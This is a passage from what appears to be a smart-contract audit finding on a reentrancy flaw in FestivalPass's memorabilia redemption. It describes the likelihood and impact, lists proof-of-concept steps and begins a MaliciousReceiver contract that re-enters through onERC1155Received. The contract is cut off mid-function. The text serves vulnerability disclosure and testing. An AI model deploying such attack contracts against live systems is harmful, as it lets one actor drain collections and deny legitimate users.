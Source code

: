 ## Risk

**Likelihood**:

* Any user with enough BEAT can deploy a malicious receiver contract.

* &#x20;

  The attacker does not need privileged access.

* The hoarding can happen atomically within one block.

**Impact**:

* The entire memorabilia collection can be fully redeemed by a single actor.

* &#x20;This violates the fairness of distribution.

* It results in a denial-of-service for legitimate festival attendees who cannot get memorabilia.

## Proof of Concept

1. An attacker deploys a malicious contract that re-enters when onERC1155Received is called
2. the contract has accumulated or has received BEAT tokens over time
3. The attacker performs the attack

Paste this function in your `FestivalPass.sol` contract, to know what's really going on behind the scene

```Solidity
// Use this getter function in your FestivalPass.sol contract
function getCollections(uint256 collectionId) external view returns (string memory name, string memory baseUri, uint256 priceInBeat, uint256 maxSupply, uint256 currentItemId, bool isActive) {
        MemorabiliaCollection storage collection = collections[collectionId];
        return (
            collection.name,
            collection.baseUri,
            collection.priceInBeat,
            collection.maxSupply,
            collection.currentItemId,
            collection.isActive
        );
    }
```

Paste in your `FestivalPassTest.t.sol` file or create a separate contract and inherit it in the test

```Solidity
// An attacker deploys a malicious contract that handles onERC1155Received
contract MaliciousReceiver is IERC1155Receiver {
    FestivalPass public festival;
    uint256 public collectionId;

    constructor(address _festival, uint256 _collectionId) {
        festival = FestivalPass(_festival);
        collectionId = _collectionId;
    }

    function startAttack(uint256 times) external {
        // Kick off first call
        festival.redeemMemorabilia(collectionId);
    }

    function onERC1155Received(
        address, address, uint256, uint256, bytes calldata
    ) external override returns (bytes4) {
        // Re-enter during mint callback
        (
```